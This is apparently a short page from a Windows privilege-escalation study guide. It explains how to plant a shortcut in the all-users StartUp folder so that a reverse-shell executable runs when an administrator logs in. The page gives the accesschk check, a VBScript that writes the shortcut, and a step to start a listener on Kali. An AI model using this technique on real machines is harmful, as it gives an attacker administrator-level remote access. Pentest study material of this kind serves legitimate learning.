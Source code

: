 ```yaml
---
title: Startup
parent: Method (Windows)
layout: default
nav_order: 7
---
```


Will only be triggered when an administrator or equivalent logins.

1. Check if we have access: `accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`
2. Use this script below to create a shortcut (must be shortcut!)
3. Run the script using: `cscript CreateShortcut.vbs`
4. Start listener on Kali and wait until admin logins

CreateShortcut.vbs
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```
